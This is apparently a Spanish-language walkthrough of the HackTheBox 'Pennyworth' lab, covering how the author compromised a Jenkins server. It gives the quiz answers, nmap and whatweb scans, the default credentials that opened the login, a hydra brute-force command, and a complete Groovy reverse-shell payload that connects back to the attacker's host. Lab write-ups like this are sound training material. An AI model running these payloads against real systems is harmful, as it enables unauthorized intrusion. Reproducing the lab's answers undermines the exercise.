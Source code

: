 Aca vemos [[groovy]]

----

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures
	Es un identificador único asignado a una vulnerabilidad de seguridad específica en un software o hardware

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy
	Acepta groovy scripts

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe
	Ejemplo: "cmd.exe /c whoami"
- `cmd.exe` → Llama al intérprete de comandos de Windows.
- `/c` → Le dice a `cmd` que ejecute el comando que sigue y luego se cierre.
- `whoami` → El comando que queremos correr (devuelve el usuario actual).

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u
	Aparece en el panel de ayuda de netcat `nc -h`

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]

Por el ttl sabemos que es una maquina linux
*Puertos:*
`8080` Corre un servicio http con el servicio jetty. El archivo robots, y server-header no nos dan ningun informacion relevante

-------

# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39 que vimos tambien en nmap

----

# Intrusion al panel de logeo

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Despues de intentar los usuarios y contraseñas mas comunes, logramos dar con 
```
Usuario: root
Contraseña: password
```
Intente hacerlo con hydra y la verdad no pude

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]
Ahora vamos a ir a la parte de consola y vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]





--------
# Notas
Intente correr hydra pero la verdad no me dio resultado, asi que termine mirando el writeup para la parte del login panel

```
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10k-most-common.txt -s 8080 10.129.255.235 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -t 40
```
# Creditos
Writeup Oficial HackTheBox


